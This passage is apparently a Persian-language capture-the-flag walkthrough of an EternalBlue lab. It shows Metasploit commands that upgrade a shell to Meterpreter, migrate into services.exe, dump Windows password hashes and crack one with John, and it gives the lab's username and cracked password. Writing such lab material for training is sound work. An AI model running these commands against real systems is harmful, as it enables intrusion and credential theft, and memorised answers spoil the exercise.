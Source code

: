 		1. ![[Pasted image 20240712181003.png]]
	4. *جواب سوالات به ترتیب >>*
		1. تنظیم Required Options های `post/multi/manage/shell_to_meterpreter`
		2. شروع exploit حتی اگر بدرستی هم کار نکند قبول است.
		3. انتخاب SESSION مناسب برای تغییر از `Shell CMD` به `Meterpreter Shell`
			1. ![[Pasted image 20240712181347.png]]
		4. اجرای `whoami` در `Meterpreter` باید خروجی `Authority/System` را داشته باشد.
		5. لیست کردن تمام پروسه های ماشین تارگت با `ps` برای انجام مهاجرت
		6. سپس مهاجرت به پروسه ای که از یوزری با دسترسی `Authority/System` استفاده میکند(مانند `services.exe` و یا `cmd.exe`) 
			1. ![[Pasted image 20240712181552.png]]
	5. حال میتوانیم به TASK 4 که Cracking نام دارد برویم.
```sh
msf6 post(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter
msf6 post(windows/smb/ms17_010_eternalblue) > use 0
"Or"
msf6 post(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter
msf6 post(windows/smb/ms17_010_eternalblue) > options #Check LHOST Set right
msf6 post(windows/smb/ms17_010_eternalblue) > exploit #Don't work
msf6 post(windows/smb/ms17_010_eternalblue) > set SESSION 2
msf6 post(windows/smb/ms17_010_eternalblue) > exploit
"Now Exploit started and CMD Shell Change to Meterpreter Shell"
"You can access to this shell in background process"
msf6 post(windows/smb/ms17_010_eternalblue) > sessions
msf6 post(windows/smb/ms17_010_eternalblue) > sessions -i 3

"Meterpreter Shell Starded"
Meterpreter > ls
Meterpreter > ps #Copy `services.exe` *PID*
Meterpreter > migrate 708 #708 is `services.exe` *PID*
Meterpreter > getuid #must be changed to SYSTEM\Authority User
Meterpreter > hashdump #Escalation Privilege Proof of Concept
```
	![[Pasted image 20240712171125.png]]
##### TASK 4 - Cracking
1. *Get Hash of non Default User*
	0. در این مرحل باید ابتدا بوسیله `hashdump` در `Meterpreter Shell` که از ماشین تارگت گرفتیم مقدار هش شده پسورد اکانت یک کاربر ماشین تارگت را بدست بیاوریم و سپس با کرک مقدار هش شده، به پسورد اکانت ویندوزی برسیم. برای انجام اینکار >>
		1. ![[Pasted image 20240712182134.png]]
	1. `Meterpreter > hashdump`
		1. ![[Pasted image 20240712182411.png]]
	2. سپس مقدار هش را کپی میکنیم، فایلی جدید بنام `hash.txt` میسازیم و مقدار هش را در فایل Paste میکنیم.
		1. ![[Pasted image 20240712182751.png]]
2. *Cracking Non Default User*
	0. برای کرک مقدار هش ابتدا Wordlist(مثلا rockyou.txt) را آماده میکنیم.
	1. سپس بوسیله `John` و یا `hashcat` به کرک مقدار هش میپردازیم. استفاده از John در این مورد بهتر زیرا ماشین کارت گرافیک ندارد.
	2. `john -w="/usr/share/wordlists/rockyou.txt" hash.txt --format=NT`
		1. ![[Pasted image 20240712183401.png]]
	3. مقدار هش با موفقیت کرک شد و پسورد مورد نظر با موفقیت یافت شد.
3. *Answer TASK 4 Questions*
	1. اولین سوال میگوید *در شل Meterpreter کامند `hashdump` را اجرا کنید و نام یکی از یوزر های غیر پیشفرض ماشین را بگویید؟* جواب >> `jon`
		1. ![[Pasted image 20240712182627.png]]
	2. سوال دوم میگوید *مقدار کرک شده هش، یعنی پسورد اکانت `jon` چیست؟* جواب `alqfna22`
		1. ![[Pasted image 20240712183550.png]]
	3. پس از جواب دادن به این سوال میتوانیم به TASK 5 که Find Flags است برویم.
```sh 
"Terminal-1 msfconsole => In Meterpreter Shell on Target machine"
Meterpreter > hashdump
#Copy jon hash value in text file in named "hash.txt"
```